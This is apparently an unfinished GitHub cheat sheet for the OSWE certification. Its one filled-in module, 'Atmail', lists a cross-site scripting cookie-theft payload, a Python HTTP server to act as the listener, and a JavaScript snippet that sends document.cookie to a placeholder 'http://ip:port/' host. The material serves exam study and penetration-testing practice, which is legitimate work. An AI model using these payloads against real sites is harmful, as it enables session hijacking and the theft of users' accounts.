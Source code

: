 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module Atmail :

1. Steal cookie payload (Httponly flag should be disable in set-Cookie headers)
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3
    #python3 -m http.server
    
3. Embeded Javascript file in image tag
    #function addImage() {
    #var img = document.createElement('img');
    #img.src = 'http://ip:port/' + document.cookie;
    #document.body.appendChild(img);
    #}
    #addImage();
    
4. 
    
    
    
